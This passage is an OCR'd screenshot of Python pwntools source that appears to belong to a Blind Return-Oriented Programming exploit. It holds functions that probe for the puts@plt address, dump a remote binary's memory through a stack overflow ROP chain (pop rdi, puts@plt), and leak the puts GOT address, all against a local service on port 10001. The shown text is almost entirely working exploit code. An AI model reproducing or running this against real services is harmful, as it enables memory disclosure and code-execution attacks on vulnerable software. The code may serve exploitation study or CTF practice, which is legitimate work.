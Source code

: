 ```python
            p.recvline()
            p.sendline(payload)
            if p.recv().startswith("\x7fELF"):
                log.info("puts@plt address: 0x%x" % addr)
                p.close()
                return addr
            log.info("bad: 0x%x" % addr)
            p.close()
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1

def dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr):
    pop_rdi  = gadgets_addr + 9     # pop rdi; ret

    result = ""
    while start_addr < end_addr:
        #print result.encode('hex')
        sleep(0.1)
        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(start_addr)
        payload += p64(puts_plt)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            data = p.recv(timeout=0.1)      # timeout makes sure to recive all bytes
            if data == "\n":
                data = "\x00"
            elif data[-1] == "\n":
                data = data[:-1]
            log.info("leaking: 0x%x --> %s" % (start_addr,(data or '').encode('hex')))
            result += data
            start_addr += len(data)
            p.close()
        except:
            log.info("Can't connect")
    return result

def get_puts_addr(buf_size, stop_addr, gadgets_addr, puts_plt, puts_got):
    pop_rdi  = gadgets_addr + 9

    payload  = "A"*buf_size
    payload += p64(pop_rdi)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(stop_addr)

    p = remote('127.0.0.1', 10001)
    p.recvline()
    p.sendline(payload)
    data = p.recvline()
    data = u64(data[:-1] + '\x00\x00')
    log.info("puts address: 0x%x" % data)
    p.close()

    return data

```